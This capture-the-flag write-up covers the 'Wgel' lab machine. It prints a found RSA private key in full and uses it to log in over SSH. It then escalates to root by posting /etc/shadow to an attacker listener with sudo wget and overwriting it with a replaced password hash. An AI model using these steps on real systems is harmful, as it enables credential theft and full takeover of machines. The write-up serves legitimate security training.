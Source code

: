 # Wgel CTF

--------------------------------------------------------------------

**TOOLS USED**: nmap, dirb, netcat, wget

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.171.243

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info<br>
```
nmap -sC -sV 10.10.171.243
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.14.18)

Enumerate hidden directories on webserver
```
dirb -u http://10.10.171.243 -w /usr/share/dirb/wordlists/common.txt
```

![1.2](./imgs/1.2.png)

Pages of Interest: /sitemap/.ssh

Found potential user Jessie in http://10.10.171.243/ source

![1.3](./imgs/1.3.png)

Found id_rsa (private key) at http://10.10.171.243/sitemap/.ssh

![1.4](./imgs/1.4.png)

### 2. SSH LOGIN

Copy private key to file
```
echo "-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----" > id_rsa
```

Log into ssh using found crendentials
```
ssh jessie@10.10.171.243 -i id_rsa
```

![2.1](./imgs/2.1.png)

Have to change permissions on id_rsa and then try again
```
chmod 600 id_rsa
ssh jessie@10.10.171.243 -i id_rsa
find /home/jessie -iname "*flag*"
```
![2.2](./imgs/2.2.png)

**USER FLAG**: 057c67131c3d5e42dd5cd3075b198ff6

### 3. PRIVILEGE ESCALATION

Check user privileges
```
sudo -l
```

![3.1](./imgs/3.1.png)

jessie can run wget as root with no password<br>
jessie can also run all commands as root using sudo (need password)

Start listener
```
nc -lnvp 4444 > shadow
```

Send /etc/shadows to host machine with wget
```
sudo /usr/bin/wget --post-file /etc/shadow 10.6.40.234:4444
```

![3.2](./imgs/3.2.png)

Now we can replace jessie's password hash with our own hash

Find hash algorithm on https://hashcat.net/wiki/doku.php?id=example_hashes

HASH: sha512crypt

Create password hash
```
openssl passwd -6 "1234"
```

![3.3](./imgs/3.3.png)


PASSWORD: 1234
HASH: $6$.PAbc1lM9LOOeZl4$Dq18IJTuUJuNfhVJmJI2GfwQxo55/scbJiQbm/Oyj6gtSt.fdNuMvnRy45QilcmRJXO0.S1.zTyH6gpexiwtx0

Replace jessie's old hash<br>
Replacing the root password hash with this one can also work

![3.4](./imgs/3.4.png)

Start server
```
python3 -m http.server
```

Replace old /etc/shadow and get root access
```
sudo /usr/bin/wget http://10.6.40.234:8000/shadow -O /etc/shadow
sudo bash
```

![3.5](./imgs/3.5.png)

**ROOT FLAG**: b1b968b37519ad1daa6408188649263d